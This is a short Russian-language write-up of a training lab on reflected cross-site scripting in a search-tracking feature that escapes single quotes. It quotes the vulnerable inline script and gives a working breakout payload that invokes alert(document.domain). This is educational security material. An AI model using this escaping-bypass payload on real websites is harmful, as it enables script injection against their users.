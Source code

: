 В данной лабораторной работе отражена уязвимость межсайтового скриптинга в функции отслеживания поисковых запросов, где угловые скобки и двойные скобки кодируются в HTML, а одинарные кавычки экранируются.

Чтобы решить эту лабораторную работу, выполните атаку с использованием межсайтового скриптинга, которая вырывается из строки JavaScript и вызывает `alert`функцию.

## Дано

- Отражена уязвимость
- Уязвимость в функции запросов
- Двойные скобки кодируются в HTML, а одинарные кавычки экранируются

## Задача

вызвать `alert`функцию.

# Решение

Найден скрипт
```
<script>
	var searchTerms = 'home';
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

Полезная нагрузка
```
\';alert(document.domain)//
```

